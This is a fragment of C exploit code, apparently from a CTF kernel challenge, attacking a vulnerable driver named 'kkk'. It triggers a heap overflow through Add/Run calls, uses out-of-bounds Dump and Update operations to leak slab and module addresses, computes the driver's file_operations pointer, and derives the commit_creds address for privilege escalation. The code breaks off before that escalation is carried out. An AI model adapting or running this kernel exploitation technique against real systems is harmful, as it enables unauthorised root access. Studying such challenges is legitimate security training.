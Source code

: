 ```c

    int fd = open(path, 0);
    if(fd == -1){
        puts("[-] open wrong, exit");
        exit(0);
    }

    struct AddParam a;
    struct OtherParam r;

    // malloc 1024 - 48 = 0x3D0

    a.type = 0;
    a.key_len = 0x7a;
    a.key = buf;
    a.data_len = 0x16;  // overflow 2 bits of the key size
    a.data = buf + 0x80;
    memset(buf, 0x42, 1);

    Add(fd, &a);

    a.type = 3;
    a.key_len = 0x80;
    a.key = buf;
    a.data_len = 0x10;
    a.data = buf + 0x80;
    memset(buf, 0x42, 8);

    Add(fd, &a);

    memset(buf, 0x43, 8);
    Add(fd, &a);


    r.id = 0;
    Run(fd, &r);  // trigger overflow

    r.id = 1;
    r.data = sendbuf;
    r.key = recvbuf;
    Dump(fd, &r);   // chunk 1 OOB read, read chunk 2

    uint64_t slub_addr = *(uint64_t *)(recvbuf + 0x98);  // 0xffff888005318b70
    uint64_t kkk_addr = *(uint64_t *)(recvbuf + 0xb8);   // 0xffffffffc0000130

    uint64_t kkk_fops = 0xffffffffc0001180ul + kkk_addr - 0xffffffffc0000130ul;

    printf("[+] slub_addr: 0x%lx\n", slub_addr);
    printf("[+] kkk_addr: 0x%lx\n", kkk_addr);
    printf("[+] kkk_fops: 0x%lx\n", kkk_fops);


    *(uint64_t *)(recvbuf + 0x90) = 0x80;   // key_len
    *(uint64_t *)(recvbuf + 0x98) = slub_addr;   // key_buf
    *(uint64_t *)(recvbuf + 0xa0) = 0x50;   // data_len
    *(uint64_t *)(recvbuf + 0xa8) = kkk_fops;   // data_buf    
    Update(fd, &r);  // chunk 1 OOB write, write chunk 2 

    r.id = 2;   
    Dump(fd, &r); // dump chunk 2 to leak kkk_fops

    uint64_t kernel_addr = *(uint64_t *)(sendbuf + 0x8); // 0xffffffff812258e0
    uint64_t commit_creds = kernel_addr - 0xffffffff812258e0 + 0xffffffff8109bcf0;
```